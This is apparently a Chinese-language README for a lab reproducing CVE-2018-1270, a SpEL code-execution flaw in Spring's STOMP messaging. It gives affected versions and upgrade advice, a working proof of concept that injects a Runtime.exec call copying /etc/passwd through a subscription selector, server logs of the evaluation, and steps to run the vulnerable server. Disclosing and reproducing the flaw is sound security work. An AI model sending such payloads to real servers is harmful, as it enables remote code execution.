 # CVE-2018-1270 - Spring messaging Spel 代码执行漏洞

昨天 Spring 公布了1个RCE漏洞，了解一下:

* [CVE-2018-1270: Remote Code Execution with spring-messaging](https://pivotal.io/security/cve-2018-1270)

影响版本

* Spring Framework 5.0 to 5.0.4
* Spring Framework 4.3 to 4.3.14

这个漏洞对环境没有要求，如果你在使用 `spring-messaging + websocket + STOMP`，请尽快升级到最新版本；如果你在用 SpringBoot，请升级到 `2.0.1.RELEASE`。

### 漏洞详情

简单说，由于 `StandardEvaluationContext` 权限太大，可以执行任意 SpEL 表达式，所以官方在 `Spring 5.0.5` 之后添加了 `SimpleEvaluationContext`，用于实现简单的数据绑定，保持灵活性但不带来安全隐患。

spring-messaging 提供了 STOMP 协议支持，允许客户端订阅消息，并使用 selector 去过滤消息，e.g

```
selector = 'T(java.lang.Runtime).getRuntime().exec("cp /etc/passwd /tmp")'
stompClient = Stomp.client('ws://localhost:8080/hello')
stompClient.connect({}, function(frame) {
    stompClient.subscribe('/topic/greetings', function() {}, {
        "selector": selector
    })
});
```

当你在订阅时，spring 会存储这个过滤器，并在客户端收到消息时触发，e.g

```
2018-04-07 08:32:20 [clientInboundChannel-3] TRACE o.s.m.s.b.DefaultSubscriptionRegistry - Subscription selector: [T(java.lang.Runtime).getRuntime().exec("cp /etc/passwd /tmp")]

...

2018-04-07 08:32:21 [MessageBroker-2] DEBUG o.s.m.s.b.DefaultSubscriptionRegistry - Failed to evaluate selector: EL1001E: Type conversion problem, cannot convert from java.lang.UNIXProcess to boolean
```

Poc 截屏

![screenshot](contrib/screenshot.jpg)

具体漏洞分析文章，稍后发出

### 环境使用方法

编译并启动 Spring Boot 服务器，

```
mvn clean package
java -jar target/spring-boot-websocket-1.0.jar
```

访问 - 输入表达式进行测试，

```
http://localhost:8080
```

![screenshot](contrib/web.jpg)





